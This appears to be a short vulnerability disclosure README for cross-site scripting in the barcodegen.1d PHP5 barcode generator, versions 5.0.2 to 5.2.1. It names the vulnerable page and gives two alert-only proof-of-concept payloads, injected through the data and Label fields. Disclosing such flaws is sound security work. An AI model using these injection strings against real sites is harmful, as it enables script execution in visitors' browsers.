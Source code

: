 # barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting

Barcode Generator barcodegen.1d PHP5-v5.0.2~5.2.1

Target：https://[vulnerable site]/barcode/HTML/BCGothercode.php
  
  Once inserted, use [” onmouseover=”alert(‘test’)] in data,
  ![image](https://github.com/wanglingjhen/barcodegen.1d-php5.v5.2.1-Cross-Site-Scripting/blob/main/data.png)
  
  
  succeed
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-php5.v5.2.1-Cross-Site-Scripting/blob/main/data_test.png)
  
  Other field, use ” > < img src=/ onerror=alert(‘test’)> in Label,
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-php5.v5.2.1-Cross-Site-Scripting/blob/main/label.png)
  
  succeed
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-php5.v5.2.1-Cross-Site-Scripting/blob/main/label_test.png)
  
  
